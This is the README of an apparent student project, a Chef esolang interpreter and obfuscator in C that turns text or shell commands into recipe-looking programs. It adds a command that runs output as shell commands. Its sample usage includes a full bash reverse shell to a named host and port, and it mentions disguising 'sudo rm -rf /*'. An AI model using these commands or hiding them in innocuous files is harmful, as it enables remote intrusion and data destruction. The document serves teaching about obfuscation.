 # The Caterers (Presentation)

Video found [here](https://drive.google.com/file/d/13m5r6mSRCnoAiT4AbzqvMGTcFNCCxnQH/view?usp=sharing)

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes." 
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used solely for data output—once items have been poured into the pans, they are not able to be removed except through output

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`
e
Obfuscate takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"`
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'`
- `./obfuscate -x 'echo "Hello, world!"'`
- `./obfuscate -x "bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1'"`[^5]

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 256 or fewer distinct characters.[^6] Attempting to use it otherwise will throw an error.

### To interpret: `./interpret`

Interpret takes a file path followed by an optional flag and attempts to run it as a Chef file. If `-` is provided in lieu of a path, Interpret will attempt to read from the standard input. The only flag currently available is
- `-v`: Interpret will use *verbose* mode and print the intermediate, post-parsing steps of the file, allowing users to check that the file is at least being parsed correctly.

Sample usage:
- `./interpret recipes/factorial.chef`
- `cat recipes/souffle.chef | ./interpret -`
- `./obfuscate -p 'wow' | ./interpret - -v`

Watch out! Interpret is ONLY guaranteed to work on properly-formatted Chef programs using characters entirely within the ASCII set. Attempting to use it otherwise will throw an error or cause undefined behavior.[^7]

> [!IMPORTANT]
> This is not, in fact, strictly true. Our implementation of the Chef intrepreter features one nonstandard command of our own design. See [link!!]
> In addition, we've found that a great number of other interpreters allow (or require) nonstandard formatting (*e.g.* "the 1st mixing bowl", newlines as command separators, oven temperatures in degrees Fahrenheit, etc.) and as such will accept some technically incorrect formats.
> The "Serves" directive is mandatory, because the documentation is unclear.

## How this is Cybersecurity

Esolangs are fun and all, but not in fact particularly related to cybersecurity. Chef, however, by virtue of its programs being multiply coded as recipes, is a language *all about* obfuscation--the command to read a number for the standard input is "Take *ingredient* from the refrigerator", for example--and thus we might imagine a malicious actor encoding harmful code as seemingly innocuous Chef programs, which are both made to look like recipes and completely unreadable.

Our newly-introduced twenty-first command extends this idea.
```
Broil contents of [the] [*nth*] baking dish.
```
  The program will immediately empty the contents of the given baking dish and read it as a shell command for an `sh`-compliant shell in the same form it would print it. For example, if a baking dish would be printed as "echo 'the answer is 101'", this command will empty the dish and execute the command `echo 'the answer is 101'`. This allows Chef programs to really qualify as malware--we can imagine the output of `./obfuscate 'sudo rm -rf /*'`. (Note: Do **NOT** try that. We do NOT recommend or endorse the creation of malware with our project, and we are NOT liable for any damage to your file system due to your own foolishness.)

By including both an obfuscator and interpreter, we gain the ability to encode arbitrary messages and execute them in what look like slightly odd but nevertheless non-malevolent-appearing recipes. Our project is thus both an esolang interpreter AND a potential attack vector.


[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
[^5]: That's a reverse shell to homer.stuy.edu on port 9001. In our video, this command didn't actually work, and that was because the bash command was actually getting executed. By replacing the single quotes with double quotes, it's actually running as it's supposed to and generating the reverse shell recipe.
[^6]: It shouldn't be possible to use more than 256 distinct characters while staying in the 7-bit ASCII range, but you never know.
[^7]: It's not our problem, essentially.
